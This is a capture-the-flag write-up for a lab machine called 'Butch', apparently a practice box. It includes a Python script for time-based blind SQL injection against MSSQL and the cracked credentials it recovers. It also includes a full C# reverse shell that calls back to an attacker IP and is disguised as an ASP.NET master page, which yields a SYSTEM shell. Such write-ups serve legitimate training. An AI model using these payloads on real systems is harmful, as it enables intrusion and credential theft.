

# Butch

### Port Scan


## Procedure
🔎 Port 450 is running a web server with a login page.\


🔎 Found a list of files on `/dev` using ffuf.\


🔎 The file `site.master.txt` looks like a copy of the login page that is being
served under an ASP.NET application.\


🔎 The username field seems vulnerable to SQL Injection (blind sqli).\


🔎 The database engine is indetified[^1] as MSSQL.

🔎 Some information can be extracted using a time-based approach[^2].\
`' IF LEN(@@version)>5 WAITFOR DELAY '00:00:05'--`

📝 Automating the extraction process.
```python
# scripts/sqli.py
import string
import requests
import time
import urllib.parse

url = 'http://192.168.198.63:450/'

headers = {'Content-Type': 'application/x-www-form-urlencoded'}

body = '__VIEWSTATE=%2FwEPDwUKLTQ0NDEwMDQ5Mg9kFgJmD2QWAgIDD2QWAgIBD2QWAgIHDw8WAh4EVGV4dAUeSW52YWxpZCB1c2VybmFtZSBvciBwYXNza2V5Li4uZGRkikLoDB%2B%2FpXdQqiz9h%2Bj5nHjE4OqEYro7hz%2FkDYh48fQ%3D&__VIEWSTATEGENERATOR=CA0B0334&__EVENTVALIDATION=%2FwEdAAQ5uNqOYHbIeyi7LRhe1%2B7mG8sL8VA5%2Fm7gZ949JdB2tEE%2BRwHRw9AX2%2FIZO4gVaaKVeG6rrLts0M7XT7lmdcb69X6Gyh7W5UwTVXhfLT4lC%2FUYzzbo01YDuyOekjcuLek%3D&ctl00%24ContentPlaceHolder1%24UsernameTextBox={}&ctl00%24ContentPlaceHolder1%24PasswordTextBox=&ctl00%24ContentPlaceHolder1%24LoginButton=Enter'

result = ''
index = 1
tries = 0

while True:
    for i in (string.digits + string.ascii_lowercase + string.ascii_uppercase + string.punctuation.replace('%', '')):
        payload = f"'; IF (SELECT COUNT(password_hash) FROM users WHERE username='butch' AND password_hash LIKE '{result}{i}%')=1 WAITFOR DELAY '00:00:05'--"
        encoded = urllib.parse.quote_plus(payload)
        start = time.time()
        requests.post(url, headers=headers, data=body.format(encoded)) # , proxies={'http': 'http://localhost:8080'})
        end = time.time()
        
        elapsed = int(end - start)
        if (elapsed >= 5):
            result += i
            index += 1
            print(result)
            break

    if (i == string.punctuation[-1]):
        tries += 1
        index += 1
    
    if (tries == 2):
        print('exhausted')
        break
```

🔎 Information retrieved.
| Item     | Value                                                                      |
| :------- | :------------------------------------------------------------------------- |
| version  | microsoft sql server 2017                                                  |
| database | butcher                                                                    |
| table    | users                                                                      |
| columns  | user_id, username, password_hash                                           |
| row      | ?, butch, e7b2b06dd8acded117d6d075673274c4ecdc75a788e09e81bffd84f11af6d267 |

🔑 Cracking the `password_hash` using https://crackstation.net/.


🔎 Login to the web application using the found credentials
`butch:awesomedude`.\


🔎 Uploading and requesting a test file.\


🔎 After some testing, noticed that files with .aspx and .asp ext are
invalidated.\


🔎 The file found earlier it's really a copy of the master page
(`site.master.cs`). Crashed the application several times trying to overwrite
its contents.

📝 Combining an example of the file[^3] with a simple reverse shell[^4] and
using the `namespace`, `class`, and imports from the original file to craft the
payload.
```csharp
// scripts/site.master.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;
using System.Collections.Generic;
using System.Web;
using System.Web.UI;
using System.Web.UI.WebControls;

namespace MyNamespaceMaster
{
    public partial class MyClassMaster : MasterPage
    {
        static StreamWriter streamWriter;

        protected void Page_Load(object sender, EventArgs e)
        {
            using(TcpClient client = new TcpClient("192.168.49.87", 450)) // change me
            {
                using(Stream stream = client.GetStream())
                {
                    using(StreamReader rdr = new StreamReader(stream))
                    {
                        streamWriter = new StreamWriter(stream);
                        
                        StringBuilder strInput = new StringBuilder();

                        Process p = new Process();
                        p.StartInfo.FileName = "cmd.exe";
                        p.StartInfo.CreateNoWindow = true;
                        p.StartInfo.UseShellExecute = false;
                        p.StartInfo.RedirectStandardOutput = true;
                        p.StartInfo.RedirectStandardInput = true;
                        p.StartInfo.RedirectStandardError = true;
                        p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                        p.Start();
                        p.BeginOutputReadLine();

                        while(true)
                        {
                            strInput.Append(rdr.ReadLine());
                            //strInput.Append("\n");
                            p.StandardInput.WriteLine(strInput);
                            strInput.Remove(0, strInput.Length);
                        }
                    }
                }
            }
        }

        private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

    }
}

```

💀 Uploading the file, setting up a netcat listener on port 450 and reloading
the page spawns a reverse shell as System.\


🏳 User flag.\


🏴 Administrator flag.\


### References
[^1]: https://null-byte.wonderhowto.com/how-to/sql-injection-101-fingerprint-databases-perform-general-reconnaissance-for-more-successful-attack-0184562/#jump-method1querydatabaseforversioninfo
[^2]: https://perspectiverisk.com/mssql-practical-injection-cheat-sheet
[^3]: https://github.com/autofac/Examples/blob/master/src/WebFormsExample/Site.Master.cs
[^4]: https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc